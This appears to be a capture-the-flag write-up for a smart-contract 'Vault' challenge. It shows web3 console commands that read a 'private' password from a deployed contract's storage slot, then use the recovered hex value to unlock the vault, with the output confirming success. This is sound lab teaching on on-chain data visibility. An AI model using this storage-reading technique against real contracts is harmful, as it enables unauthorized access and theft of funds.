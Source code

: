 Idea is to call Vault.unlock() with a _password value that is the same as that of the state variable password. Although this state variable is declared private - meaning other contracts do not have access to it - it's still publicly accessible. We can read its value from the memory storage of this deployed contract with the correct index, which is 1 in this case since password is the second state variable.

contract instance: 0x42087bc27b67ad672ad48e34938a159d8e407d40

>web3.eth.getStorageAt("0x42087bc27b67ad672ad48e34938a159d8e407d40", 1, (err, data) => {
	rs=data.toString();
})
<undefined
>rs
<"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"

Now we know the password and can unlock the vault with it:

await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

To verify vault has been unlocked:
>await contract.locked()
<false

